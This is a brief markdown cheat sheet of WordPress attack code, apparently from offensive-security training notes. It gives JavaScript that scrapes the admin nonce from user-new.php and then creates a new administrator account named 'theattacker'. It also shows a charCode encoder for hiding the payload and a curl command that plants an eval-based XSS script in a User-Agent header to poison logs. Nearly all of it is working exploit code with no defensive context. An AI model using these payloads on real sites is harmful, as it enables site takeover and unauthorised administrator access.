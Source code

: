 # Wordpress


## Gathering WordPress Nonce

```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

```

## Creating a New WordPress Administrator Account

```js

var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=theattacker&email=theattacker@whatever.com&pass1=attackpass&pass2=attackpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);


```

## JS Encoding JS Function

```js
function encode_to_javascript(string) {
      var input = string
      var output = '';
      for(pos = 0; pos < input.length; pos++) {
        output += input.charCodeAt(pos);
        if(pos != (input.length - 1)) {
          output += ",";
        }
      }
      return output;
    }
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

## Poisonning log file

```sh
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,...,59))</script>" --proxy 127.0.0.1:8080

```

https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/